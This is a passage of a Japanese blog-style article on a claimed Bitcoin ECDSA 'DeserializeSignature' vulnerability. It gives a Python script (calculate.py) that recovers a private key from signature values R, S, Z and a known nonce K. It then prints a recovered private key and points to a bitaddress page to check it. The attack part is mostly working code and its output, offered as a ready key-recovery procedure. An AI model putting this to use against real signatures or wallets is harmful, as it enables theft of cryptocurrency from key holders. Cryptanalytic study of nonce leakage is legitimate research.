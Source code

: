 

<p>コードを開いてすべての署名値を追加しましょう<code><strong>K, R, S, Z</strong></code></p>



<pre class="wp-block-code"><code><strong>def h(n):
    return hex(n).replace("0x","")

def extended_gcd(aa, bb):
    lastremainder, remainder = abs(aa), abs(bb)
    x, lastx, y, lasty = 0, 1, 1, 0
    while remainder:
        lastremainder, (quotient, remainder) = remainder, divmod(lastremainder, remainder)
        x, lastx = lastx - quotient*x, x
        y, lasty = lasty - quotient*y, y
    return lastremainder, lastx * (-1 if aa &lt; 0 else 1), lasty * (-1 if bb &lt; 0 else 1)

def modinv(a, m):
    g, x, y = extended_gcd(a, m)
    if g != 1:
        raise ValueError
    return x % m
    
N = 0xfffffffffffffffffffffffffffffffebaaedce6af48a03bbfd25e8cd0364141


K = 0x2863763e8ec6bf755cc152e5080e7c74a95295f06cfbe86d9cb7c37f28f1013c
R = 0xb44a31bd81d3c596cc4d3776263229b6f52f2a729fbcafefffc9a0d955d46307
S = 0x74e5feb333400732256fc44a681a1ba262b080a7cc5dfa11894e7ce4d9766c6f
Z = 0xa79974cb42f82890fcebcb9865cd512a34479d91211e2ce383def10a7388cf63


print (h((((S * K) - Z) * modinv(R,N)) % N))</strong></code></pre>



<h2 class="wp-block-heading">スクリプトは<code><a href="https://github.com/demining/CryptoDeepTools/blob/main/32DeserializeSignatureVulnerability/calculate.py" target="_blank" rel="noreferrer noopener">calculate.py</a></code>次の式を使用して秘密キーを計算します。</h2>



<p><code>Privkey = ((((S * K) - Z) * modinv(R,N)) % N)</code></p>



<blockquote class="wp-block-quote">
<p><strong>スクリプトを実行してみましょう。</strong></p>
</blockquote>



<figure class="wp-block-image"><img src="https://cryptodeep.ru/wp-content/uploads/2024/05/image-38.png" alt="ビットコインネットワークにおける DeserializeSignature の脆弱性: 暗号解析、その結果、無効な ECDSA 署名が作成される可能性" class="wp-image-5251"/></figure>



<p><code><strong>PrivKey = 0506b0b7b508625dc7b0623db41206c48058ede0a9c75ff265eeb47fea29b3f0</strong></code></p>



<p><strong><a href="https://cryptodeep.ru/bitaddress.html" target="_blank" rel="noreferrer noopener">ビットアドレス</a></strong>を開いて確認してみましょう:</p>
